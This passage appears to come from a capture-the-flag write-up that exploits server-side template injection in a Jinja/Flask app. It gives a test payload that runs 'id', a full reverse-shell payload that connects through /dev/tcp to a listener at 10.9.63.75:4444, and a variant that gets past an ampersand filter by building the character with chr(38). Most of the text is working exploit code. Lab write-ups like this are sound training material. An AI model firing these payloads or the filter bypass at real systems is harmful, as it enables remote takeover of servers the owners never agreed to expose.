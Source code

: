 I will test a simple **SSTI Payload**:

```python
{{ config.__init__.__globals__.__builtins__.__import__("os").popen("id").read() }}
```

![Untitled](/assets/Super%20Secret%20Tip%20images/Untitled%208.png)

So it worked! Now, it’s time to delivery the **RCE** payload.

The original is:

```
{{ config.__init__.__globals__.__builtins__.__import__("os").popen("bash -c \"bash -i >& /dev/tcp/10.9.63.75/4444 0>&1\"") }}
```

But there is the restriction method and it does not allow the ampersand character `&`. Therefore, I have to modify the script to bypass the retrisction:

```
{{ config.__class__.__init__.__globals__["os"].popen("bash -c \"bash -i >" + config.__class__.__init__.__globals__["__builtins__"]["chr"](38) + " /dev/tcp/10.9.63.75/4444 0>" + config.__class__.__init__.__globals__["__builtins__"]["chr"](38) + "1\"")}}
```
